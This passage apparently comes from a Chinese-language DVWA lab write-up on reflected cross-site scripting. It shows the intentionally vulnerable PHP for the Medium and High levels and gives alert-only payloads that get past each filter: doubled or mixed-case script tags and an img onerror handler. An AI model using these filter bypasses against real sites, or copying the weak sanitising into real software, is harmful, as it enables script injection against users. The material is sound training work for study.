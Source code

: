 - 
2. Medium

```
<?php
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {    
    // 变化的代码，str_replace()：替换字符串中的一些字符（区分大小写）    
    $name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?>
```

- 分析: 对name中的内容过滤,过滤掉```<script>```,使用双写,大小写绕开过滤
- <img src="./pics/xss-rm.png">
- payload:```<scr<script>ipt>alert(/xss-rm/)</scr<script>ipt>```
  或者:
  ```<ScRipt>alert(/xss-rm/)</ScRipt>```
- bp:<img src="./pics/bpxss-rm.png">
3. High

```
<?php
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // 变化的代码
    // Get input. preg_replace: Perform a regular expression search and replace
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?>
```

- payload:```<img src=x onerror=alert(/xss-rh/)>```
- 分析:利用prep_replace()对name中的script标签进行完全过滤,i表示不区分大小写;这里通过其他的标签如img的src注入js代码来绕开
- bp:<img src="./pics/bpxss-rh.png">

```
